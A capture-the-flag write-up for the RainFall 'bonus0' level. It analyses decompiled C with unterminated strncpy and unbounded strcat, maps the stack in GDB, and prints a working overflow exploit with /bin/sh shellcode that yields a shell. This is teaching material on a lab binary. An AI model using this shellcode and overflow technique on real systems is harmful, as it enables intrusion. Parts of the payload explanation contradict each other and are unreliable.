 <h1 align="center"> BONUS 0 </h1>

## 🔍 Analysis of Decompiled [bonus0](./source.c)
### Initial Execution
```bash
bonus0@RainFall:~$ ./bonus0
 - 
test1
 - 
test2
test1 test2
```

The binary prompts for two inputs,and concatenates them with a space, and prints the combined result.

### Vulnerability Assessment

The vulnerability lies in the interaction between three key functions:

#### `p` Function - Input Handler
```c
char *p(char *dest, char *s) {
  char buf[4104];
  puts(s);
  read(0, buf, 0x1000);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 0x14);  // Only copies 20 bytes
}
```
- Reads up to 4096 bytes but only copies 20 bytes to destination
- **Critical**: `strncpy` may not null-terminate if input is exactly 20 bytes

#### `pp` Function - String Concatenation
```c
char *pp(char *dest) {
  char src[20];   // First input buffer
  char v3[20];    // Second input buffer
  
  p(src, " - ");
  p(v3, " - ");
  
  strcpy(dest, src);         // Unbounded copy
  *(_WORD *)&dest[strlen(dest)] = unk_80486A4;   // space
  return strcat(dest, v3);  //  Unbounded append
}
```

#### `main` Function
```c
int main() {
  char combined[42];  // Target buffer - only 42 bytes!
  pp(combined);
  puts(combined);
  return 0;
}
```

### The Vulnerability Chain

1. **Unterminated Strings**: If either input is exactly 20 bytes or more, `strncpy` won't null-terminate the destination
2. **Unbounded Operations**: `strcpy` and `strcat` rely on null terminators to know when to stop
3. **Memory Overread**: Without null terminators, these functions read past buffer boundaries
4. **Stack Overflow**: The resulting concatenated string overflows the 42-byte `combined` buffer

## Stack Layout Analysis

Using GDB to map the stack structure:

```
Stack Layout (from GDB analysis):
┌─────────────────────────┐
│  combined[42]           │ ← 0xbffff70e (start)
├─────────────────────────┤
│  ... stack data ...     │
├─────────────────────────┤
│  saved EBP              │ ← 0xbffff738 (combined + 42)
├─────────────────────────┤
│  saved EIP (ret addr)   │ ← 0xbffff73c (combined + 46)
└─────────────────────────┘
```

**Key Addresses** (from GDB session):
- `combined` starts at: `0xbffff70e`
- `saved EBP` at: `0xbffff738` (42 bytes offset)
- `saved EIP` at: `0xbffff73c` (46 bytes offset)

## Exploitation Technique

### Stack Pivot Attack

The exploit uses a classic **stack pivot** technique:

1. **Overwrite saved EBP**: Replace it with an address pointing to our shellcode
2. **Leverage `leave` instruction**: `leave` does `mov esp, ebp; pop ebp`
   - Sets `esp` to our controlled address (the overwritten saved EBP)
3. **Control execution**: Subsequent `ret` pops from our controlled stack location

### Payload Construction

The exploit requires careful payload crafting:

**First Input** (20 bytes):
- Fill with NOPs (`\x90`) to create a landing pad
- Include shellcode for `/bin/sh` execution

**Second Input** (20 bytes):
- Padding to reach saved EBP offset
- Target address (little-endian) to pivot execution
- Additional NOPs for stability

## Working Exploit

```bash
(python -c 'print("A"*50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'; python -c 'print("A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 8)'; cat) | ./bonus0
```

### Payload Breakdown

**First Input Analysis**:
- 50 A's + 24-byte shellcode = 74 bytes total
- `strncpy` caps at 20 bytes → only first 20 A's copied to `src`

**Second Input Analysis**:
- 9 A's + `\xd0\xe6\xff\xbf` (pivot address) + 8 B's = 21 bytes
- `strncpy` caps at 20 bytes → 9 A's + pivot address + 7 B's

**Concatenation Result**:
```
combined[42]: [20 A's] + [space] + [9 A's] + [pivot_addr] + [7 B's] = 41 bytes
```

This precisely overwrites `saved EBP` at offset 42 with our pivot address `0xbfffe6d0`.


## Exploitation Results

```bash
$ (python -c 'print("A"*50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'; python -c 'print("A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 8)'; cat) | ./bonus0

whoami
bonus1
```
